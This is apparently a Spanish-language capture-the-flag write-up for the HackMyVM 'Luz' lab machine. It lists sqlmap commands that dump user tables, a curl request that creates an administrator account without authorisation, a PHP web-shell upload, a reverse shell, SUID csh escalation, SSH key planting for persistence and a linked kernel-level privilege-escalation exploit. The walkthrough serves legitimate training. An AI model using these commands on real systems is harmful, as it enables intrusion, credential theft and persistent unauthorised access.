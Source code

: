 ```yaml
---
title: Luz HackMyVM
published: true
---
```


- Ip atacante - 10.0.2.13
- Ip victima - 10.0.2.9
## Nmap

Realizamos el primer escaneo y solo tenemos dos puestos abiertos

![](/img/Luz/luz1.png)

## 80 http

Al parecer es una pagina muy normal y la verdad que pense que teniamos por el ?page=home algun tipo de LFI pero al parecer no es el caso.
Entonces cuando segui jugando con la nos encontramos con que al agregar 
o ver un producto carga en la seccion de network un link muy interesante

![](/img/Luz/luz2.png)
![](/img/Luz/luz3.png)
Ahora veremos si la pagina tiene SQLI. Para esto correremos sqlmap

```sqlmap -u http://10.0.2.13/view_prod.php?id=3```

![](/img/Luz/luz4.png)
Viendo la imagen podemos ver que esta usando MySQL y que puedo utilizar el tipo de Union para realizar el SQLI
Ahora ire a probarla a la web para ver cual es el campo injectable.

![](/img/Luz/luz5.png)

```sqlmap -u http://10.0.2.13/view_prod.php?id=1 --technique=U --dbms=mysql --dbs```

![](/img/Luz/luz6.png)

```sqlmap -u http://10.0.2.13/view_prod.php?id=1 --technique=U --dbms=mysql -D fos --tables```

![](/img/Luz/luz7.png)

```sqlmap -u http://10.0.2.13/view_prod.php?id=1 --technique=U --dbms=mysql -D fos -T user_info --dump --batch```

![](/img/Luz/luz8.png)

```sqlmap -u http://10.0.2.13/view_prod.php?id=1 --technique=U --dbms=mysql -D fos -T users --dump --batch```

![](/img/Luz/luz9.png)

Ok pero ahora esto no nos ayuda mucho debido a que es complicado pasar el hash del password a texto plano. 

Para esto vamos a continuar haciendo un scanning a la pagina de admin para ver que nos podemos encontrar.

```gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.0.2.13/admin -x .php,.html,.txt```

![](/img/Luz/luz10.png)

Dentro de users.php nos encontramos que hay una pagina muy interesante y dentro de su codigo fuente nos encontramos otra pagina la cual nos permite crear un nuevo usuario

![](/img/Luz/luz11.png)
![](/img/Luz/luz12.png)

Ahora ya dentro de la pagina de manage_user.php intentamos crear un nuevo usuario de tipo administrador

![](/img/Luz/luz13.png)

Al carecer de un boton en la pagina para darle a confirmar lo haremos desde el terminal con curl
Para esto leeremos el codigo fuente para saber el nombre los parametros y ver cual tiene que ser la respuesta.

![](/img/Luz/luz14.png)

En este caso vemos que la respuesta tiene que ser 1 si se ha creado correctamente el usuario.

```curl --url "http://10.0.2.13/admin/ajax.php?action=save_user" -X POST -d "name=test&username=test&password=test&type=1"```

![](/img/Luz/luz15.png)

Ahora con este comando deberia actualizar la tabla de usuarios y salir el test
```sqlmap -u http://10.0.2.13/view_prod.php?id=1 --technique=U --dbms=mysql -D fos -T users --dump --batch --flush-session```

Ahora si procedemos a ingresar a la pagina principal e ingresar como login de administradores.

Viendo la pagina vemos que tiene para subir un menu. Intente subir un menu totalmente normal y luego intente subir un .txt para ver si admite subir otro tipo de archivo.

Efectivamente si permite subir otro archivo, entonces intentaremos subir un archivo que nos proporcione inyectar codigo con php

![](/img/Luz/luz16.png)

Actualizamos el menu junto con el shell.php

![](/img/Luz/luz17.png)

Ahora solo debemos aprovecharnos del archivo que subimos

![](/img/Luz/luz18.png)

urlencodeamos un reverse shell y listo

![](/img/Luz/luz19.png)

Con esto ya tenemos nuestra shell siendo www-data
Solo queda buscar la forma de cambiar de usuario y escalar privilegios

![](/img/Luz/luz20.png)

Encontramos en la ruta /html el user.txt con la primera flag

![](/img/Luz/luz21.png)

Ahora hacemos un poco de enumeracion, pero no encontre nada interesante hasta que tire del comando find

![](/img/Luz/luz22.png)

Ahora buscamos el bsd y el csh en gtfobins y nos aparece que hacer
https://gtfobins.github.io/gtfobins/csh/
Yendo a la direccion de /usr/bin y corriendo el comando que nos proporcionan logro obtener una shell como aelis

![](/img/Luz/luz23.png)

Ahora no nos deja avanzar, sin embargo vamos a ingresar por el puerto 22 ssh

## 22 ssh

- En la maquina atacante (Generando mi clave publica)
```rm -rf ~/.ssh```
```ssh-keygen```

![](/img/Luz/luz24.png)

- En la maquina victima (Ingresando clave publica)

Ahora si podemos visualizar mi clave publica y pasarla dentro de **/home/aelis/.ssh/authorized_keys** en la maquina victima

![](/img/Luz/luz25.png)

Ahora solo queda conectarme como ```ssh aelis@10.0.2.13```
De esta manera ya no nos pide la contraseña de aelis pero si nos permite entrar como aelis.

Ahora si nos fijamos encontramos en el comando find de arriba un tal enlightement que basicamente es un gestionador de ventanas

Encontramos un exploit 
https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit

Lo copie y lo pegue en la ruta /tmp
Por ultimo lo corru y escalamos privilegios a root y obtuve la flag

![](/img/Luz/luz26.png)